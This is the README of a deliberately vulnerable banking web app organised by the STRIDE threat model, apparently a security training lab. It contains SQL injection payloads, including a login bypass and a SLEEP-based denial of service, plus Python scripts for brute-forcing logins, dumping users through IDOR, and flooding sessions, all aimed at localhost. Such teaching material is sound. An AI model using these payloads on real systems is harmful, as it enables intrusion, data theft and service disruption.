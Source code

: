 # Banking Web App

This web application is intentionally vulnerable to many attacks, a few of those are SQLi, DoS, Identity Spoofing, and more...

The banking application conforms to the STRIDE Threat Modelling Methodology.

Table of Contents
- [Banking Web App](#banking-web-app)
    - [Spoofing](#spoofing)
      - [Brute Force](#brute-force)
      - [SQLi Attack](#sqli-attack)
      - [Predictable Session Token](#predictable-session-token)
    - [Tampering](#tampering)
    - [Repudiation](#repudiation)
    - [Information Disclosure](#information-disclosure)
      - [Unprotected API Endpoints](#unprotected-api-endpoints)
      - [Error Message Leaks](#error-message-leaks)
      - [Database Dump](#database-dump)
      - [Attack Simulation script using Python](#attack-simulation-script-using-python)
    - [Denial of Service](#denial-of-service)
      - [SQL Payload for DoS:](#sql-payload-for-dos)
      - [API Endpoint Exploitation (assuming the database has numerous transactions)](#api-endpoint-exploitation-assuming-the-database-has-numerous-transactions)
      - [Session Storage Bomb](#session-storage-bomb)
    - [Elevation of Privilege](#elevation-of-privilege)


### Spoofing
This web app has:
- Weak Authentication System
- Predictable Session Tokens
- SQL injection in Login (Raw user input is concatinated into SQL)
- Accepts any password (NO password complexity, means any password is accepted, even 1-character passwords)
- Example of Spoofing Attempt:
  - Discover valid usernames (GET /api/users.php)
  - Below are examples on attacks that you can do to this web app

#### Brute Force
Python Code for Brute Force Attack:
```python
for password in ["admin","Admin123","password"]: 
    requests.post("/login.php", data={"username":"admin","password":password}) 
```
---

#### SQLi Attack
```
Username: admin' --
Password: [anything]
```
---
#### Predictable Session Token
Predict the session token
```python
token = hashlib.md5("admin" + str(int(time.time()))).hexdigest()
```

---------------------------
### Tampering

---------------------------
### Repudiation

---------------------------
### Information Disclosure

**Information Disclouse** refers to the vulnerabilities that **expose sensitive data to unauthorized personnel**. This can mean an **attacker** who **gained access** to data **by privilege escalation**, a **user** who **just happened** to **see the database**, or an **unauthorized employee** that has a **misconfigured account** which **has an administrative rights** (and many more scenarios).

Below are the examples of how this web app presents the Information Disclosure threats.

#### Unprotected API Endpoints

```http
GET /api/users.php
```

This exposes the user accounts without having to authenticate if the one accessing has the privileges to do so.

#### Error Message Leaks
Try searching `' OR 1=1 --` in `transactions.php` page.

This attack allows the hacker to read the structure of the database by doing multiple searches with different payloads and eventually, after some time... they get to map out the structure of the database.

#### Database Dump
If, somehow, the attacker found a way to see the directories of the web application, they can do something like `localhost/vulnerable-app/database.sql`. This downloads the file `database.sql` wherein they can see the commands ran to create the database of this web app. **Assuming** that we have **multiple users accessing their records** and **the admin watching the logs**, the **attacker** now has an **idea of the structure** and **can execute sql commands using SQLi** to **drop databases** and delete everything.

#### Attack Simulation script using Python

```python
import requests

TARGET = "http://localhost/vulnerable-app"

def fetch_sensitive_data():
    # 1. Dump all users via API
    users = requests.get(f"{TARGET}/api/users.php").json()
    print("[+] Stolen user data:", users)

    # 2. Exploit IDOR to get admin profile
    admin_profile = requests.get(f"{TARGET}/profile.php?id=1", 
                               cookies={"PHPSESSID": "stolen_session"}).text
    print("[+] Admin profile:", admin_profile[:200] + "...")

    # 3. Trigger SQL error to leak DB structure
    response = requests.get(f"{TARGET}/transactions.php?search=' OR 1=1 -- ")
    if "SQLSTATE" in response.text:
        print("[+] DB structure leaked in error!")

fetch_sensitive_data()
```

Sample Output:

```console
[+] Stolen user data: [{"id":1,"username":"admin",...}]
[+] Admin profile: <h1>Admin Profile</h1>...
[+] DB structure leaked in error!
```

How to run:
1. Create python file in ../vulnerable-app
2. Create venv (if does not exists yet)
3. Activate venv
4. pip install requests, urllib3
5. Execute this command: python .\info_disclose.py > output.txt
6. Check the output.txt file for the output of the python code.


---------------------------
### Denial of Service

**Denial of Service** in this web app is presented by **misconfiguration and insecure coding practices** when it comes to logging in.

- `login.php` has no rate limiting, no CAPTCHA, and no IP-based throttling

- `/dos_attack.py ` has the DoS python script that if run multiple times, it can disrupt the user's attempt to login by flooding the server with bogus traffic.

- `transactions.php`'s search field is vulnerable to SQLi. Which means we can run this query.

#### SQL Payload for DoS:
```sql
' OR (SELECT SLEEP(10)) -- 
```

#### API Endpoint Exploitation (assuming the database has numerous transactions)
```
GET /api/transactions.php?limit=1000000
```

#### Session Storage Bomb
- The attacker canb flood the server with fake sessions
```python
import requests

for i in range(10000):
    requests.get("http://localhost/login.php", cookies={
        "PHPSESSID": f"malicious_session_{i}"
    })
```

---------------------------
### Elevation of Privilege

